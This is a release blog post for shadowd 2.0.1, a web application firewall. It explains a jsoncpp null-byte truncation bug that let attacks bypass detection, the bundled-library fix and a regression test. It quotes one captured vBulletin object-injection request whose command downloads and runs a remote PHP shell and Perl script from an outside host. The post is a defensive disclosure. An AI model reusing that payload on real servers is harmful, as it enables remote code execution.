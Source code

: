 +++
title = "shadowd 2.0.1"
description = ""
tags = [
    "release",
    "shadowd",
    "bugfix",
]
date = "2016-03-06"
categories = [
    "Development",
    "Shadow Daemon",
]
menu = "main"
+++

**TL;DR:** There was a bug in jsoncpp regarding null-bytes. It was fixed a year ago, but most packet managers still ship affected versions. This makes it possible to bypass the shadowd tests with null-bytes.

<!--more-->

## Discovery of the bug

I operate a large amount of [honeypots](https://shadowd.zecure.org/tutorials/honeypots/) to observe and study attacks on web applications. Recently I noticed that one of the web applications (vBulletin 5.1.2) was successfully compromised, but strangely enough the attack was not detected by Shadow Daemon. So I started recording everything and a little bit later I saw a request with the following resource.

    /ajax/api/hook/decodeArguments?arguments=O:12:%22vB_dB_Result%22:2:%7Bs:5:%22%00*%00db%22;O:18:%22vB_Database_MySQLi%22:1:%7Bs:9:%22functions%22;a:1:%7Bs:11:%22free_result%22;s:6:%22system%22;%7D%7Ds:12:%22%00*%00recordset%22;s:151:%22wget%20http://augsburg-auto.ru/files/vb.txt;mv%20vb.txt%20simple.php;cd%20/tmp;wget%20http://augsburg-auto.ru/files/SQL.txt;mv%20SQL.txt%20bash;perl%20bash;rm%20-rf%20SQL*%22;%7D

The parameter *arguments* contains a serialized PHP object and an URL, so this should result in a blacklist impact of 6. More than enough to trigger the alarm, but it did not. After looking at the recorded parameters it was pretty obvious why: *arguments* was cut off after the first null-byte (*%00*), so it was incomplete and did not trigger any filters at all.

    O:12:"vB_dB_Result":2:{s:5:" 

This seemed odd to me, considering that shadowd uses *std::string*. Unlike char arrays the C++ standard library strings are not terminated by null-bytes, so this should not have happened. I started debugging shadowd and noticed that strings were cut off by jsoncpp when decoding client input with null-bytes. As a result of that all security checks in shadowd used the incomplete versions, even though they could handle null-bytes perfectly fine themselves.

After some digging I found [this](https://sourceforge.net/p/jsoncpp/patches/18/) ticket in the jsoncpp bug tracker. The problem with null-bytes was already reported and fixed *exactly* a year ago (now that is a nice coincidence). So why was this problem still happening? Because most packet managers install versions of jsoncpp that are much older than a year.

## The bug fix

The new version of shadowd ships with jsoncpp. The source of the library is directly compiled into the binary. This is the only (usable) way to ensure that shadowd is not affected by the problem, because it might take years until most packet managers update their versions of jsoncpp. On a positive note, this means there is one dependency less required to install shadowd.

So make sure to update to shadowd 2.0.1 as fast as possible to apply this patch.

## Precautionary measures

To prevent this problem from happening again (e.g., when updating the json lib) there is a new test case for null-bytes.

    BOOST_AUTO_TEST_CASE(nullbyte_decode) {
        swd::request_ptr request(new swd::request);
        swd::request_handler request_handler(request, swd::cache_ptr(), swd::storage_ptr());

        request->set_content("{\"version\":\"\",\"client_ip\":\"\",\"caller\":\"\","
         "\"resource\":\"foo\\u0000bar\",\"input\":{},\"hashes\":{}}");
        BOOST_CHECK(request_handler.decode() == true);

        std::stringstream expected;
        expected << "foo" << '\0' << "bar";
        BOOST_CHECK(request->get_resource() == expected.str());
    }

## Lessons learned

The lesson I learned (again) today is to not trust anyone or anything. Even though shadowd could handle null-bytes fine, one of its dependencies could not. The same could be true for web applications you are developing or using yourself. Even if the actual code of the application does not contain bugs, are you certain that there are no bugs in the dozens of libraries the application is using? So better be prepared and protect your applications!
